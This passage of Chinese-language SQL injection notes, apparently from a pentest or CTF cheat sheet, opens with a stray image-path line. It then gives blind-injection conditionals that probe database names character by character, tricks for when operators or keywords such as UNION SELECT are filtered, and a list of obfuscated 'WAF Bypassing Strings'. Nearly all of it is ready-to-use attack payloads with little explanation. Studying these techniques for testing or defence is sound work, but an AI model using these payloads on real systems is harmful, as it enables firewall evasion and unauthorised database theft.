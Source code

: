 ```sql
if(condition,1,0) 
case when 写法: 
case when condition then 1 else 0 end

or if((ascii(substr((select database()),1,1))>97),1,0)#
or case when ascii(substr((select database()),1,1))>97 then 1 else 0 end#
```

### 7.=<>被过滤

使用in()绕过

```sql
/?id=' or ascii(substr((select database()),1,1)) in(115)--+    // 正常回显

/?id=' or substr((select database()),1,1) in('s')--+    // 正常回显
```

### 8.union select where等被过滤

1.  使用注释

    ```sql
    U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
    ```

2.  内敛注释

    ```
    id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM 	/*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
    ```

3.  大小写

    ```
    id=-1'UnIoN/**/SeLeCT
    ```

```sql
#WAF Bypassing Strings:
 
 /*!%55NiOn*/ /*!%53eLEct*/
 
 %55nion(%53elect 1,2,3)-- -
 
 +union+distinct+select+
 
 +union+distinctROW+select+
 
 /**//*!12345UNION SELECT*//**/
 
 /**//*!50000UNION SELECT*//**/
 
 /**/UNION/**//*!50000SELECT*//**/
 
 /*!50000UniON SeLeCt*/
 
 union /*!50000%53elect*/
 
 +#uNiOn+#sEleCt
 
 +#1q%0AuNiOn all#qa%0A#%0AsEleCt
 
 /*!%55NiOn*/ /*!%53eLEct*/
 
 /*!u%6eion*/ /*!se%6cect*/
```